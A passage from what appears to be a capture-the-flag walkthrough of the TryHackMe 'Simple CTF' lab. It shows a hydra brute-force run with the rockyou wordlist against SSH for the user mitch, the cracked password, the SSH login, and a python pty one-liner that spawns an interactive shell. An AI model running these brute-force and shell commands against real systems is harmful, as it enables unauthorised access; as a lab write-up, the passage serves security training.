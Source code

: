 This is useful for us, because we might be able to brute-force the password.

# SSh
## Brute-forcing SSH

I used `hydra` to brute-force the password for user `mitch`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://$IP:2222
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:18:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.134.5:2222/
[2222][ssh] host: 10.10.134.5   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
~~~

Mitch's password: `secret`

## Log into SSH

Now that we have the credentials for SSH service, we can login and the first thing I did was spawning a TTY shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ ssh mitch@$IP -p2222
mitch@10.10.134.5's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
mitch@Machine:~$
~~~

